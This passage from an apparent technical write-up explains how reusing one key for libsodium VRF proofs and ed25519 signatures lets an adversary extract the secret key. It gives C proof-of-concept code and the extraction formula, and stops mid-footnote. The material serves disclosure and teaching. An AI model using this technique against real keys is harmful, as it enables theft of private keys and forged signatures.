 
Here is where the devil lies. We can trick the ed25519 signer to create the same value of $k$, but we will get a
different value of $c$. If the adversary manages to do this, then the secret key can be extracted! Worst of all is 
that it is not an attack hard to pull-off. Given a VRF proof for public key $pk$, the adversary simply needs to 
request an ed25519 signature from $pk$'s owner to sign $L$, which is a public value. To showcase the simplicity of
the attack, we've implemented a simple script that, given a VRF proof for any message, requests the key owner to
sign a particular message with ed25519, and this results in an extraction of the secret key.

We begin by defining the message we'll use for the VRF proof, and initialising some variables.
```C
#define MESSAGE (const unsigned char *) "yup"
#define MESSAGE_LEN 3
// The message that we need to craft in order to extract the key is a value 
// publicly available. However, libsodium does not export the functions to 
// compute it. Nonetheless, it is computed internally. To simplify our lives, 
// we slightly modify libsodium VRF verifier to return the crafted message.
unsigned char crafted_msg[32], proof[80], sig[crypto_sign_BYTES], pk[crypto_sign_PUBLICKEYBYTES];
```
Next, we create the scope of the signer, over which we have no access when faking
the signature.

```C
{
    unsigned char sk[crypto_sign_SECRETKEYBYTES];
    crypto_sign_keypair(pk, sk);

    // Now let's use these keys for vrf generation.
    crypto_vrf_ietfdraft03_prove(proof, sk, MESSAGE, MESSAGE_LEN);

    // Now, we have a proof that consists of 80 bytes that correspond to:
    // * 32 bytes of an EC point that we can ignore
    // * 16 bytes of a challenge C = H(pk, H, Gamma, U, V), where the values
    // of H, Gamma, U and V are irrelevant.
    // * 32 bytes of a scalar s' = k + C' * az
    // where k = H(z || m), with z = H(sk)[32..], and az = H(sk)[..32].

    unsigned char random_output[64];
    if (crypto_vrf_ietfdraft03_verify(random_output, crafted_msg, pk, proof, MESSAGE, MESSAGE_LEN))
        printf("failed VRF\n \n");

    // Now we use the same key to create an ed25519 signature for the crafted message. Note
    // that the only 'trick' we are doing is asking the signer to sign a particular message, after
    // she has used the key to create a VRF proof. We do not access the secret key in any other way.
    crypto_sign_detached(sig, NULL, crafted_msg, 32, sk);

    if (crypto_sign_verify_detached(sig, crafted_msg, 32, pk))
        printf("failed on ed25519 generation");

    // Now we should have a 64 bytes signature that corresponds to:
    // * first 32 bytes represent the point R = k * G, where k = H(z || m)
    // where z = H(sk)[32..]
    // * second 32 bytes represent a scalar s = k + az * HRAM
    // where HRAM = H(R || pk || m), and az = H(sk)[..32]
}
```
As we said above, the problem is that the two challenges are different. What does this mean?
That we can extract the secret key. Mainly, we have that:
`s - s' = (c - c') * az <=> az = (s - s') / (c - c')`


[^1]: A non-expert reader should not be concerned of what this really means. Simply